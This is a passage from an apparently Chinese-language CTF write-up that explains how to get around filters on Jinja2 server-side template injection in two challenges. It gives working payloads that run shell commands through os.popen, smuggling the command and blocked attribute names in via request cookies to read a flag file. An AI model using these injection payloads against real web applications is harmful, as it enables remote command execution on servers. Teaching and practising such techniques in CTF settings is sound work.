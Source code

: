 ### [web 365](#toc_web-365)

这里的话`'`,`"`,`[`被 ban，这里仍然可以用 request.cookies 来进行绕过

```plain
?name={{url_for.__globals__.os.popen(request.cookies.c).read()}}
//c= tac /flag
```

[![在这里插入图片描述](assets/1698900310-82b2d1b6d863aa1b4e86453ad5046430.png)](https://storage.tttang.com/media/attachment/2022/08/14/e6295b8b-822c-48c1-945e-dd8e60a3ff1e.png)

### [web 366](#toc_web-366)

这里的话过滤了\_，我们可以利用过滤器 attr 结合 request 来进行绕过

```plain
{{(lipsum|attr(request.cookies.a)).os.popen(request.cookies.b).read()}}
cookies:a=__globals__&b=cat /flag
```

[![在这里插入图片描述](assets/1698900310-fd3bebc8195213ec5e5291e451b2cf56.png)](https://storage.tttang.com/media/attachment/2022/08/14/b4882dfc-0d8d-4133-8728-987267c7ecc0.png)
